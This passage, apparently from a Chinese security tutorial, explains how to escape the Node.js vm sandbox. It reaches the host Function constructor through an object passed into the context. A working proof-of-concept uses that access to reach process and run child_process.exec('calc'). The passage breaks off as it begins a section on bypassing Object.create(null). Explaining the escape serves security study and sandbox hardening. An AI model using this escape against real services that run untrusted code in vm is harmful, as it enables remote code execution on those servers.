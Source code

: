 我们通过`this`是指向的是 Context，其实也说明了只要是外部的引用的特性都是可以进行获取来进行逃逸的

示例：

```bash
const vm = require("vm");

const sandbox = {
    x: []
};

vm.createContext(sandbox);

const res = vm.runInNewContext('x.constructor.constructor("return process")()',sandbox);

console.log(res.mainModule.require('child_process').exec('calc'));
```

[![](assets/1706959000-ce6a6cdbf4b5d938ba3eab0ac44e9bb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140521-e3a1f504-bc10-1.png)

我们这里利用的是沙箱内定义的数组 x 进行 RCE 的，而且经过测试由于数字，字符串，布尔这些都是 primitive 类型，在传参的时候将数值传递过去，而不是引用属性，无法进一步调用`constructor`

### 沙箱逃逸绕过 Object.create(null)

我们既然知道`this`是引用的 Context 从而实现 RCE 的，如果我们将原型对象设置为 null，这样的话`this.constructor`获取不到对象，从而无法进行利用
